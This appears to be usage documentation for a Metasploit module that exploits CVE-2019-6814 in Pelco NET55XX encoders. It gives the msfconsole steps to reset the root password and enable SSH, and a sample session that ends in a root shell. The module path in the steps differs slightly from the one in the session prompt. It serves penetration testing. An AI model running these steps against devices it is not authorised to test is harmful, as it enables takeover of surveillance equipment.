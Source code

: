 ## Vulnerable Application

Schneider Electric Pelco NET55XX Encoder (CVE 2019-6814)

Adding Schneider Electric Pelco NET55XX module affecting NET55XX versions (NET5501, NET5501-I, NET5501-XT, NET5504, NET5500,NET5516,NET550).
This module exploits an inadequate access control vulnerability creating a malicious JSON request to the `webUI` encoder, thus allowing the SSH service to be enabled and changing the root password.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/schneider_electric_net55xx_encoder`
- [ ] `set RHOSTS [rhosts]`
- [ ] `set RPORT [rport]`
- [ ] `set NEW_PASSWORD [new password]`
- [ ] `exploit`
- [ ] Verify you get a root shell

## Options

This module can be as simple as setting the `RHOST` and `NEW_PASSWORD` option, and you're ready to go.

### NEW_PASSWORD  

You should set a new SSH password to the vulnerable device.

## Scenarios

**Schneider Electric Pelco Encoder NET5501-XT**

msf exploit(unix/http/schneider_electric_net55xx_encoder) > set RHOSTS 192.168.34.2
RHOSTS  => 192.168.34.2
msf exploit(unix/http/schneider_electric_net55xx_encoder) > set RPORT 80
RPORT  => 80
msf exploit(unix/http/schneider_electric_net55xx_encoder) > set NEW_PASSWORD msfrapid7
NEW_PASSWORD => msfrapid7
msf exploit(unix/http/schneider_electric_net55xx_encoder) > run

[] 192.168.34.2:22 - Attempt to start a SSH connection...
[] 192.168.34.2:80 - Attempt to change the root password...
[+] 192.168.34.2:80 - Successfully changed the root password...
[+] 192.168.34.2:22 - Session established
[] Found shell.
[] Command shell session 1 opened (192.168.34.3:37033 -> 192.168.34.2:22) at 2019-07-03 10:57:07 -0400

uname -a;id
Linux NET5501-XT-K61200103 2.6.37 #1 PREEMPT Fri Aug 8 04:33:08 KST 2014 armv7l unknown
uid=0(root) gid=0(root) groups=0(root)
